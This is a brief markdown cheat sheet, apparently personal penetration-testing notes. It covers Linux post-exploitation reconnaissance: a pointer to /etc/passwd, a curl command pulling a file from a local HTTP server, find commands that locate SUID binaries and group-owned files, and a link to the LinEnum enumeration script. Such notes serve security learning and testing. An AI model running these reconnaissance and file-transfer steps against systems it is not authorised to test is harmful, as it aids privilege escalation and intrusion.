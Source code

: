# Password File
[/etc/passwd](https://www.ibm.com/docs/en/aix/7.2?topic=passwords-using-etcpasswd-file)

# Download file
curl -o localNamed http://0.0.0.0:8000/fileName

# Enumeration:
## SUID bits:
* find / -perm -u=s -type f 2>/dev/null
* [LinEnum](https://github.com/rebootuser/LinEnum)

## Group files:
find / -group groupName -type f 2>/dev/null
